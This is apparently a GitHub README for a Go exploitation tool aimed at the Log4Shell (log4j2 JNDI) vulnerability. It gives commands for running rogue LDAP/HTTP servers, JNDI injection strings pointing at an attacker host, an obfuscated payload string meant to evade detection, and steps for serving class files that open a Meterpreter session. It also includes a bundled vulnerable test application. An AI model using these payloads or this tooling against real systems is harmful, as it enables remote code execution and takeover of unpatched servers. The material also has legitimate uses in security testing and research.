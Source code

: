 # Log4Shell
 * Check, exploit, obfuscate, TLS, ACME about log4j2 vulnerability in one Go program. 
 * Support common operating systems, not need install any dependency.
 * Don't need to install anything except you want to develop this project.

## Usage
 ### Start LDAP and HTTP server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start LDAPS and HTTPS server
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start LDAPS and HTTPS server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"
   ```
   ```
   raw: ${jndi:ldap://1.1.1.1:3890/Calc_27sHQFpxvwFamvBP}

   ${j${Wmmra:CaPId:-nd}${Pd:nmPbJde:vWo9b:MUDN6w:-i:l}dap${73xrLJ:ml9s81:-}${J4T2-fyx2:-:}
   /${PU1W:Ojl2xNxM:LZdr6:Rnb:-/1.}1.${R1Edku:MWjEv3bG:ZKMVOC4d5C:hxjRF:-}${5h2bPs:ItU:-1.}
   ${ogS5N:nmmhQcYA8-axELsuz03:14:-}${rP:8SL:-}${l31C:0X1Ey:-1}${NANl9M:Pfxb2obs9-PU5bDprOX
   leb-wHz:-:3}${4MyG:H2h1V2rcTu-P6IDGS4eL:Hk2e:-}${kBUQ:DWF8O:RGSKOognGm:Gcb4g:-890}${kt:R
   Nj1QL:LJq3xSbQ-QMJ:-/}${mu9nfI-wJul-thdzcWf5G-1eYs:-}C${Cw:CrVaSz-zv:-alc}_2${Pk-1FL1teD
   6OlWC:yIn6DNeu6-8UUF:-7s}${GDuei:4HWSj:Ra31Mg-PZsPG:-HQF}${myZoY-7Oko:-px}${Tc3hLd-XdMY7
   :-v}${XaDK4l:oWc:-w}${ZE-TP:-}Fa${2SuF:n465x:-m}${Cdh5xl-hblvwX4Kq:Mj:-v}BP${5V8O-CwErDR
   2Ji:UjT:-}}

   Each string can only be used once, or wait 20 seconds.
   ```
   ```
   When obfuscate malicious(payload) string, log4j2 package will repeat execute it, the
   number of repetitions is equal the number of occurrences about string "${". The LDAP
   server add a simple token mechanism for prevent it. 
   ```

## Check
 * start Log4Shell server
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -auto-cert
        use ACME client to sign certificate automatically
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -no-token
        not add random token when use obfuscate
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
